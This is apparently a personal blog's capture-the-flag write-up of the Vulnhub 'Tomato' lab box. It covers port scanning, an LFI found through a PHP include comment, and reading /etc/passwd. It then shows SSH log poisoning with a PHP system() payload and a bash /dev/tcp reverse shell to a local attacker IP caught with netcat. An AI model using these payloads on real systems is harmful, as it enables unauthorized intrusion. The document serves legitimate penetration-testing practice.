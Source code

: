 ```yaml
---
title: Vulnhub - Tomato
description: My writeup on Tomato box.
categories:
 - vulnhub
tags: vulnhub LFI
---
```


![](https://www.hdwallpaper.nu/wp-content/uploads/2017/03/tomato-3.jpg)

You can find the machine there > [Tomato](https://www.vulnhub.com/entry/tomato-1,557/){:target="_blank"}

## Summary

This one was a pretty good one, a bit "advanced". Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.16
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-19 13:32 EEST
Nmap scan report for ubuntu.zte.com.cn (192.168.1.16)
Host is up (0.00012s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2211/tcp open  emwin
8888/tcp open  sun-answerbook
MAC Address: 00:0C:29:04:21:BA (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.25 seconds
$ nmap -p 21,80,2211,8888 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-19 13:32 EEST
Nmap scan report for ubuntu.zte.com.cn (192.168.1.16)
Host is up (0.00039s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Tomato
2211/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d2:53:0a:91:8c:f1:a6:10:11:0d:9e:0f:22:f8:49:8e (RSA)
|   256 b3:12:60:32:48:28:eb:ac:80:de:17:d7:96:77:6e:2f (ECDSA)
|_  256 36:6f:52:ad:fe:f7:92:3e:a2:51:0f:73:06:8d:80:13 (ED25519)
8888/tcp open  http    nginx 1.10.3 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Private Property
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: 401 Authorization Required
```

Lot of stuff to enumerate, let's focus on port 80 first. I tried to run gobuster on it but nothing:

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
/index.html (Status: 200)
/server-status (Status: 403)
```

Then i had the idea to run dirb on it and it worked, an interesting directory showed up.

```
$ dirb http://$ip/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Sep 19 13:38:33 2020
URL_BASE: http://192.168.1.16/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.1.16/ ----
==> DIRECTORY: http://192.168.1.16/antibot_image/         
```

Has lot of stuff in, but only `info.php` is useful.

![](https://i.imgur.com/VXTvdXH.png)

A good practise is always to check the source code of a page, even if it is a php one you never know. `info.php` has a really interesting comment!

```html
<!-- </?php include $_GET['image']; -->
```

`include == LFI` Since the super global variable `$_GET` has the `image` in the payload will go like that:

```
$ curl http://192.168.1.16/antibot_image/antibots/info.php\?image\=../../../../../../../../../etc/passwd             

.. data ..

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
tomato:x:1000:1000:Tomato,,,:/home/tomato:/bin/bash
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:109:117:ftp daemon,,,:/srv/ftp:/bin/false
```

## Shell as www-data

I enumerated a lot, but nothing. One thing left that is log poisoning but we need to be able to read log files. And we can do SSH log poisoning because we can run the `/var/log/auth.log`!

First we have to login with a php code as username:

```
$ ssh '<?php system($_GET["cmd"]);?>'@$ip -p 2211
<?php system($_GET["cmd"]);?>@192.168.1.16's password: 
```

Now we have command execution:

```
http://192.168.1.16/antibot_image/antibots/info.php?image=../../../../../../../../../var/log/auth.log&cmd=id
```

In the end we can see this:

```
invalid user uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Let's simply now URL encode our reverse shell and send it. You can use this awesome tool to URL encode/decode from terminal:

```
sudo apt-get install gridsite-clients
```

```
$ urlencode "bash -c 'bash -i >& /dev/tcp/192.168.1.14/5555 0>&1'"
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.14%2F5555%200%3E%261%27
```

```
http://192.168.1.16/antibot_image/antibots/info.php?image=../../../../../../../../../var/log/auth.log&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.14%2F5555%200%3E%261%27
```

We have shell!

```
$ nc -lvp 5555
listening on [any] 5555 ...
www-data@ubuntu:/var/www/html/antibot_image/antibots$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html/antibot_image/antibots$ 
```
